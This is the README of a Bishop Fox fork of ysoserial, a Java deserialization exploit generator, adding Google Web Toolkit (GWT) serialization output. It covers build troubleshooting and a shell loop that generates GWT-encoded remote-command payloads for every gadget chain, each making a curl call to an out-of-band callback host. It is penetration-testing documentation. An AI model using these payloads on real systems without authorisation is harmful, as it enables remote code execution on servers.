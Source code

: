 # ysoserial - Bishop Fox fork

This is a fork of [ysoserial](https://github.com/frohoff/ysoserial) that incorporates some additional features. Refer to the original project for most of the documentation.

## GWT serialization output

The original motivation for this fork was to add support for the nonstandard serialization format used by Google Web Toolkit (GWT). To output in GWT format, add the `--gwt` option, with a field name, e.g. `--gwt default`, `--gwt bishopfox`, etc. It's not necessary to pick a valid field name, but GWT will get a little farther in its deserialization logic if the field name is valid for the type of object the payload is being injected into, and this might be beneficial in some cases.

You can try out the GWT serialization output feature using [the example vulnerable GWT web app](https://github.com/BishopFox/VulnerableGWTApp) discussed in [the Bishop Fox blog post "GWT: An Eight-Year-Old Unpatched Java Deserialization Vulnerability"](https://bishopfox.com/blog/gwt-unpatched-unauthenticated-java-deserialization-vulnerability)

## Merged back-catalogue pull requests

This fork also includes content from 11 unmerged pull requests in the mainline project that seemed useful:

* [PR#200 - Jython2 payload](https://github.com/frohoff/ysoserial/pull/200) (renamed Jython3 to avoid conflict with PR#153)
* [PR#192 - MozillaRhino3 payload](https://github.com/frohoff/ysoserial/pull/192)
* Partial implementation of [PR#189 - Improved command-line handling](https://github.com/frohoff/ysoserial/pull/189) (adds the argument-handling logic, but not the -s and -p options because they seemed potentially fragile)
* [PR#184 - Improved C3P0 payload](https://github.com/frohoff/ysoserial/pull/184) (implemented as a new "C3P02" payload so the original version can still be easily used)
* [PR#177 - WildFly1 payload](https://github.com/frohoff/ysoserial/pull/177)
* [PR#172 - TLS support for RMIRegistryExploit utility](https://github.com/frohoff/ysoserial/pull/172)
* [PR#167 - ROME2 payload](https://github.com/frohoff/ysoserial/pull/167)
* [PR#162 - RMIRegistryExploit utility should only call createMemoitizedProxy if the payload is not already a Remote instance](https://github.com/frohoff/ysoserial/pull/162)
* [PR#159 - Jdk7u21variant payload](https://github.com/frohoff/ysoserial/pull/159)
* [PR#153 - Jython2 and JythonZeroFile payloads](https://github.com/frohoff/ysoserial/pull/153)
* [PR#134 - Improved help message output](https://github.com/frohoff/ysoserial/pull/134) (modified the default width from 210 to 80 for better compatibility)

# Usage

You can try skipping the build steps below and using the precompiled JAR file available in the releases list for this repo.

Otherwise, compile the code using the same steps as for the main project (version 11 JRE, etc.):

```
mvn clean package -DskipTests
```

Once compiled, using this fork of `ysoserial` is the same as the standard version unless you want to output in GWT mode.

```
Usage: java -jar ysoserial-[version]-all.jar [options] <payload> '<command>'
  Options:
    -h,--help                  Print usage
    -G,--gwt <field name>      Output in Google Web Toolkit (GWT) serialization format:
      ex. --gwt default
```

To create a GWT payload and convert it directly to the customized Base64 encoding that GWT typically expects, you can use a command like the following:

```
java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar \
   --gwt bishopfox \
   URLDNS \
   https://bishopfox.com \
   | base64 -w0 | sed 's/+/\$/g' | sed 's./._.g' > URLDNS.bin.b64
```

## Build error troubleshooting

### ysoserial requires Java 11

You may receive errors similar to the following if you attempt to compile `ysoserial` using a Java runtime newer than version 11:

```
[ERROR] Failed to execute goal org.apache.maven.plugins:maven-compiler-plugin:3.5.1:compile (default-compile) on project ysoserial: Compilation failure: Compilation failure: 
[ERROR] error: Source option 6 is no longer supported. Use 7 or later.
[ERROR] error: Target option 6 is no longer supported. Use 7 or later.
```

As briefly mentioned above, Java 11 is required to build the standard version of `ysoserial`, as well as this fork. You will need to install a version 11 JRE (make sure it is not headless, as X Window support is required), and then configure your system/session to use that JRE by default. For example, you could updated your `JAVA_HOME` environment variable to point to the JDK 11 home directory in the same terminal session as the one where you're running `mvn` commands. When you run the `java -version` command in that session, it should indicate some variation of 11, or the build will fail. The steps for installing and configuring a specific JRE depend greatly on your OS and other factors.

### Missing javax.interceptor-api library

You may receive errors similar to the following, depending on your Linux distribution, how long you've had Maven installed on it, etc.:

```
[WARNING] The POM for javax.interceptor:javax.interceptor-api:jar:3.1 is missing, no dependency information available
...omitted for brevity...
[ERROR] Failed to execute goal on project ysoserial: Could not resolve dependencies for project ysoserial:ysoserial:jar:0.0.6-SNAPSHOT: The following artifacts could not be resolved: javax.interceptor:javax.interceptor-api:jar:3.1 (absent): javax.interceptor:javax.interceptor-api:jar:3.1 was not found in
https://repo.jenkins-ci.org/public/
during a previous attempt. This failure was cached in the local repository and resolution is not reattempted until the update interval of jenkins has elapsed or updates are forced -> [Help 1]
```

If so, unpack the file `lib/javax.interceptor-api-3.1.tar.gz` into your user-level Maven directory (usually `~/.m2`). Doing so should result in the creation of a subdirectory named `repository/javax/interceptor/javax.interceptor-api/3.1` containing at least four files. The root cause is that the 3.1 library was built, released, and many projects added it as a depenedency, then [the maintainers decided it was a mistake and deleted the library](https://github.com/jakartaee/interceptors/issues/4). This repo may be updated at a later date to use a different version of the library so that this step is not necessary.

### Newer versions of Maven may require pom.xml syntax update

You may receive the following error if you are using a newer version of Maven:

```
[ERROR] Failed to execute goal org.apache.maven.plugins:maven-assembly-plugin:3.6.0:single (make-assembly) on project ysoserial: Execution make-assembly of goal org.apache.maven.plugins:maven-assembly-plugin:3.6.0:single failed: parameter 'descriptor' has been removed from the plugin, please verify documentation. -> [Help 1]
[ERROR]
```

If so, replace the existing `pom.xml` file with the content of the `pom-newer_maven.xml` file.

# Quickly trying all command execution payloads

Trying `URLDNS` first with a URL based on your Burp Suite Collaborator hostname is always a good idea, because most systems can resolve public DNS names. If you've confirmed that `URLDNS` works, but want to attempt actual code execution, this section provides an option for building all of the OS command execution payloads, which you can then copy/paste into Burp Repeater or similar.

These steps generate all possible OS command execution payloads for testing in conjunction with a Burp Suite Collaborator server in a way that will let you know which (if any) succeeded. The way this is accomplished is by executing a command that makes and HTTP request to your Collaborator server for a URI named after the payload. So if you see entries in your Collaborator console for `/CommonsBeanutils1`, you know that the `CommonsBeanutils1` gadget chain works against the target.

This example uses `curl`, which will of course fail if a system is vulnerable but does not have `curl` installed. You could modify the steps to try the same approach using `wget`, `nc`, etc. If none of those work, you could use `ping -c3`, `nslookup`, or `host`, but those will only let you know that a command succeeded, not which payload was responsible. 

First create a file named `command_execution_payloads.txt` containing the following lines:

```
BeanShell1
C3P0
C3P02
Click1
Clojure
CommonsBeanutils1
CommonsCollections1
CommonsCollections2
CommonsCollections3
CommonsCollections4
CommonsCollections5
CommonsCollections6
CommonsCollections7
Groovy1
Hibernate1
Hibernate2
JavassistWeld1
JBossInterceptors1
Jdk7u21
Jdk7u21variant
JSON1
Jython2
Jython3
JythonZeroFile
MozillaRhino1
MozillaRhino2
MozillaRhino3
ROME
ROME2
Spring1
Spring2
Vaadin1
```

Then execute the following commands, substituting the Collaborator DNS name and your `ysoserial` JAR path (e.g. `target/ysoserial-0.0.6-SNAPSHOT-all.jar`) where indicated. 

```
export COLLABORATOR="<your Collaborator DNS name here>"
export YSOSERIAL="<your ysoserial JAR path here>"
export FIELDNAME="bishopfox"
export OUTPUTDIR="payloads-${COLLABORATOR}-curl"
mkdir -p "${OUTPUTDIR}"

while read pn; do \
   java -jar "${YSOSERIAL}" \
   --gwt "${FIELDNAME}" \
   "${pn}" \
   "curl http://${COLLABORATOR}/${pn}" \
   | base64 -w0 | sed 's/+/\$/g' | sed 's./._.g' > "${OUTPUTDIR}/${pn}.bin.b64"; \
   done<command_execution_payloads.txt
```

You can then copy/paste the payloads into Burp Repeater or similar.
